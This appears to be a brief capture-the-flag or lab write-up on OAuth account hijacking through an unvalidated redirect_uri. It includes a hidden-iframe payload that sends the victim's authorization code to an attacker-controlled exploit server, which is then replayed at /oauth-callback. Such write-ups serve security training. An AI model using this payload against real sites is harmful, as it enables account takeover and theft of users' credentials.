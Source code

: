 # OAuth account hijacking via redirect_uri

We set our server as the value of the redirect_uri parameter.

![[/Screenshots/1-OAuth-account-hijacking-via-redirect_uri.png]]



In the logs of our server we obtained, as a PoC:



![[/Screenshots/2-OAuth-account-hijacking-via-redirect_uri.png]]



With the same logic créate a script that we will send to the victim


```js
<iframe src="https://<OAUTH-IP>/auth?client_id=<YOUR-CLIENT-ID>&redirect_uri=<EXPLOIT-SV>&response_type=code&scope=openid%20profile%20email"hidden="hidden"></iframe>
```

We obtain the victim's code and submit it to /oauth-callback.

![[/Screenshots/3-OAuth-account-hijacking-via-redirect_uri.png]]

![[/Screenshots/4-OAuth-account-hijacking-via-redirect_uri.png]]

